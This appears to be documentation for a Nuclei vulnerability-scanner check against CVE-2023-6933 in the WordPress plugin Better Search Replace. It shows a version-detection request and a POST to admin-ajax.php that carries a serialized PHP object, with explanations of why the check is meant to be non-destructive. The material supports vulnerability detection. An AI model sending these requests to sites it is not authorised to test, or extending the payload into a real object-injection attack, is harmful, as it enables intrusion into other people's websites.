 #### Stage 1: Plugin Detection
```http
GET /wp-content/plugins/better-search-replace/README.txt HTTP/1.1
Host: target.example.com
User-Agent: Mozilla/5.0 (compatible; Nuclei CVE-2023-6933 POC)
```

**Validation Criteria:**
- Plugin presence confirmation via README.txt
- Version pattern matching: `Stable tag: (trunk|1\.[0-4]\.[0-4])`
- Metadata extraction for reporting

#### Stage 2: Object Injection Exploitation
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: target.example.com
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (compatible; Nuclei CVE-2023-6933 POC)

action=search_replace_db&search_for=O:8:"stdClass":2:{s:6:"marker";s:34:"nuclei_randomstring";s:4:"test";i:1337;}&replace_with=nuclei_test&dry_run=1&select_tables[]=wp_options
```

**Payload Structure:**
- **action=search_replace_db**: Triggers vulnerable function
- **search_for=O:8:"stdClass":2:{...}**: Serialized PHP object payload
- **dry_run=1**: Ensures no database modifications (safety measure)
- **select_tables[]=wp_options**: Targets specific table safely

### Safety and Non-Intrusive Design

#### Safety Measures Implemented

1. **Non-Destructive Testing**
   - `dry_run=1` parameter prevents any database modifications
   - Safe `stdClass` objects used (no malicious gadgets)
   - Read-only vulnerability verification

2. **Behavioral Verification**
   - Success-based detection (not error-based)
   - Response pattern analysis
   - Functional vulnerability demonstration

3. **Professional Standards**
   - Minimal network footprint (2 HTTP requests)
   - Comprehensive logging and extraction
   - Standards-compliant nuclei template format

#### Why This Approach is Safe

The PoC is designed to be completely non-intrusive:

- **No Database Changes**: The `dry_run=1` parameter explicitly prevents any database modifications
- **Safe Objects**: Uses harmless `stdClass` objects that don't trigger destructive operations
- **Behavioral Detection**: Confirms vulnerability through response analysis, not system crashes
- **Reversible Testing**: All operations are read-only and leave no traces
